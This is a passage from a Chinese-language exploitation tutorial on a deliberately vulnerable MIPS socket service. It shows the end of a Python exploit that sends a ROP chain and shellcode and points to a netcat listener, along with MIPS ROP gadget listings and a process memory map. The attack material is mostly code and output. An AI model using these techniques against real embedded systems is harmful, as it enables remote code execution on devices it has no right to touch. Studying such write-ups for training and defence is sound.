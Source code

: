 ```
message += struct.pack("&lt;L", libc+rop4_offset) # RA then null
message += struct.pack("&lt;L", 0xafa0fffc) # sw s0, -4(sp)
message += shellcode
'''
# a0 for sleep is 5 - first gadget
Gadget 1
  0x000377cc           3000bf8f  lw ra, 0x30(sp)
  0x000377d0           2c00b18f  lw s1, 0x2c(sp)
  0x000377d4           2800b08f  lw s0, 0x28(sp)
  0x000377d8           0800e003  jr ra
Gadget 2
  0x000189ec      21c80002       move t9, s0
  0x000189f0      09f82003       jalr t9
  0x000189f4      01000524       addiu a1, zero, 1
  0x000189f8      02000010       b 0x18a04
Gadget 3
  0x00033d8c           1800a527  addiu a1, sp, 0x18
  0x00033d90           1000bc8f  lw gp, 0x10(sp)
  0x00033d94           4800bf8f  lw ra, 0x48(sp)
  0x00033d98           0800e003  jr ra
Gadget 4
  0x0001fbcc           21c8a000  move t9, a1
  0x0001fbd0           38008424  addiu a0, a0, 0x38
  0x0001fbd4           08002003  jr t9
'''


try :
    #Set the whole string
    s.sendall(message)
except socket.error:
    #Send failed
    print 'Send failed'
    sys.exit()

print 'Exploit Sent - Check your netcat listener in about 5 seconds.'
s.close()
```

由于栈是可执行的，并且库的地址并不会发生位移，所以我们可以对ROP链进行硬编码，但最终我们要将$SP内的值移动到可以调用的寄存器中。在我看来，硬编码栈地址是不可靠的，我更喜欢使用偏移量。下面是可攻破二进制的map输出结果：

```
# ./socket_bof 8888 &amp;
Binding to port 8888
11554

# cat /proc/11554/maps
00400000-00402000 r-xp 00000000 1f:02 218        /pwnable/ShellCode_Required/socket_bof
00441000-00442000 rw-p 00001000 1f:02 218        /pwnable/ShellCode_Required/socket_bof
2aaa8000-2aaad000 r-xp 00000000 1f:02 440        /lib/ld-uClibc.so.0
2aaad000-2aaae000 rw-p 2aaad000 00:00 0
2aaec000-2aaed000 r--p 00004000 1f:02 440        /lib/ld-uClibc.so.0
2aaed000-2aaee000 rw-p 00005000 1f:02 440        /lib/ld-uClibc.so.0
2aaee000-2aafe000 r-xp 00000000 1f:02 445        /lib/libgcc_s.so.1
2aafe000-2ab3d000 ---p 2aafe000 00:00 0
2ab3d000-2ab3e000 rw-p 0000f000 1f:02 445        /lib/libgcc_s.so.1
2ab3e000-2ab79000 r-xp 00000000 1f:02 444        /lib/libc.so.0
2ab79000-2abb9000 ---p 2ab79000 00:00 0
2abb9000-2abba000 rw-p 0003b000 1f:02 444        /lib/libc.so.0
2abba000-2abbe000 rw-p 2abba000 00:00 0
7f81e000-7f833000 rwxp 7f81e000 00:00 0          [stack]
```

